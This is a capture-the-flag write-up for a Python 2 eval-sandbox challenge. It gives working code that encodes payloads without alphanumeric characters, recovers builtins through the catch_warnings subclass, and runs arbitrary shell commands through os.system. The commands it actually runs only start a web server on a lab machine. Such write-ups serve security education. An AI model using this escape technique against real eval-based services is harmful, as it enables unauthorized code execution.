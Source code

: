 # Tiebreaker
###### 100 Points


### Problem
The tellers at BigBuckBankingCorp were struggling to properly add up the account balances of their clients, so the (underfunded) IT department built them a central mainframe. (Yes, BigBuckBankingCorp lives in the stone age.)

The mainframe is running on port {{*PORT*}} at {{*IP*}}. In order to be more easily scriptable, it takes stdin, and then it’ll spit out stdout.

Your mission is to compromise the server such that an HTTP request to http://{{*IP*}}:80 returns a valid response that contains your team name, SST CTF. Submitting a flag will trigger a request to the server to detect whether the challenge is solved. Submit anything as the flag, but note that you cannot submit the same text twice. The text submitted as the flag is not important; whether the server responds to an HTTP request with a response containing your team name is the only criteria for a valid solution. Each team has its own server.


### Hint
 - Scores will be determined based on time taken to solve.
 - Try not to break your server, however you may at any point request that it be reset to its original image by emailing contact@pactf.com and being sure to include your team code {{*REDACTED*}} in your email. Such a request will have a time penalty of 12 hours, and we cannot guarantee an immediate response.
 - It is possible to gain root shell access to the server. Your job is to respond to HTTP requests on port 80 with your team name; doing anything beyond this (such as cryptocurrency mining or torrenting, for example) is grounds for disqualification.

### Writeup

##### Part 0: Probing the Server
First things first, we attempt to connect to the port using netcat. 
We are given no prompt. After testing a few inputs, we find '.' nets us an error output.
```
$ nc {{IP}} {{PORT}}
.
I'm HAL. I'm happy to do things for you, as long as you communicate them without any trickery.
What's your query? (Enter 'q' to exit.)
--> Traceback (most recent call last):
  File "server.py", line 16, in <module>
    print('\n' + str(eval(str(eval(query, {'__builtins__': {}})), {'__builtins__': {}})) + '\n')
  File "<string>", line 1
    .
    ^
SyntaxError: unexpected EOF while parsing
```
If we input alphanumeric characters, we get
```
$ nc {{IP}} {{PORT}}
abc123
I'm HAL. I'm happy to do things for you, as long as you communicate them without any trickery.
What's your query? (Enter 'q' to exit.)
--> Numbers and letters can be so mean!
They can hide so many secrets! Stop using them! STOP!
-->
```
Clearly, there is an alphanumeric filter in place. 
```python
BLACKLIST = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
```
We need to exploit `eval()` without using alphanumeric characters--a classic python sandbox challenge.
A closer look at the exploitable statement
```python
eval(str(eval(query, {'__builtins__': {}})), {'__builtins__': {}})
```
shows that it evaluates our input; however, it restricts all Python builtins. Having performed reconnaissance on our target, we can start solving the problem. The solution can be divided into three parts: bypassing the alphanumeric filter, gaining arbitrary command execution, and finally starting an HTTP server.

##### Part 1: Bypassing Alphanumeric Filter
After a little bit of searching, we found an excellent [writeup](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/) to a similar problem. Turns out that in Python2, `{} = []` evaluates to `False` , and `{} < []` evaluates to `True`. Since booleans are a subclass of integers in Python, `True` and `False` can be casted to `1` and `0` when used in arithmetic. We can use this and a few bitwise operations to create a function that will encode all numbers without blacklisted characters.
```python
def get_num(n):
    if n in [-2, -1, 0, 1]:
        return ["~({}<[])", "~([]<[])",
                 "([]<[])",  "({}<[])"][n+2]
    if n % 2:
        return "~%s" % get_num(~n)
    else:
        return "(%s<<({}<[]))" % get_num(n/2)
```
Next, we need to create a function that will encode letters. We quickly found out that we can easily get letters from `a` to `f` by using `repr()` (note that backticks are an alias for this) on a byte and the slicing it (e.g. `` "`\xbb`"[3]`` for the letter `b`). To extend our charset from [a-f] to all characters, we can use `%c` as a format specifier. If we can encode a statement in the form `` '%c' % n ``, we will be able to send any letter by inserting the appropriate ascii value for `n`. The encoding of `%c` was done using the slice `` `'%\xcc'`[1::3]``, where both number were encoded using `get_num()`. Here is the final letter encoding function:
```python
def get_letter(c):
    percent_c = "`'%\xcc'`" + "[%s::%s]" % (get_num(1), get_num(3))
    return percent_c + '%' + get_num(ord(c))
```
For sake of usability, we can create `get_string()`. Note that if input space was limited, we could encode only blacklisted characters instead of all characters.
```python
def get_string(s):
    return '+'.join([get_letter(c) for c in s])
```
##### Part 2: Arbitrary Command Execution
In order to get arbitrary command execution, we can restore the builtins of the outer `eval()`. Using system defined names and methods, we can gain access to all `<type 'object'>` subclasses.
```python
>>> ().__class__
<type 'tuple'>
>>> ().__class__.__base__
<type 'object'>
>>> ().__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, ..., <class 'codecs.IncrementalDecoder'>]
```
Our goal is to get a copy of another module's builtins. For that, we need to find a reference to a module in one of the classes we can access. The instruction `sys.modules[name]` returns the reference of a module given a name. We will search for that instruction.
```python
from re import search

modules = set([c.__module__ for c in ().__class__.__base__.__subclasses__()])
for m in modules:
    try:
        with open('/usr/lib/python2.7/' + m + '.py', 'r') as f:
            for line in f:
                if search('= sys.modules\[.+\]', line):
                    print(m, line)
    except:
        pass
```
```
('warnings', "        self._module = sys.modules['warnings'] if module is None else module\n")
```
Searching `/usr/lib/python2.7/warnings.py` reveals `catch_warnings` to be the class that contains a reference to a module.
```python
for i, c in enumerate(().__class__.__base__.__subclasses__()):
    if c.__name__ == 'catch_warnings':
        print(i, c)
```
```
(59, <class 'warnings.catch_warnings'>)
```
Knowing this, we can finally get another module's builtins.
```
>>> ().__class__.__base__.__subclasses__()[59]()._module.__builtins__
{'bytearray': <type 'bytearray'>, ..., <type 'exceptions.OverflowError'>}
```
And with that, arbitrary command execution is one `import os` away.
```python
def send_cmd(cmd):
    cmd = "().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']('os').system('" + cmd + "')"
    send(get_string(cmd))
```
##### Part 3: Starting the Server
With command execution in hand, starting the HTTP server with an index containing the string 'SST CTF' was two commands away.
```python
send_cmd('echo SST\\ CTF > index.html')
send_cmd('python -m SimpleHTTPServer 80')
```
Submit an arbitrary flag and victory is ours!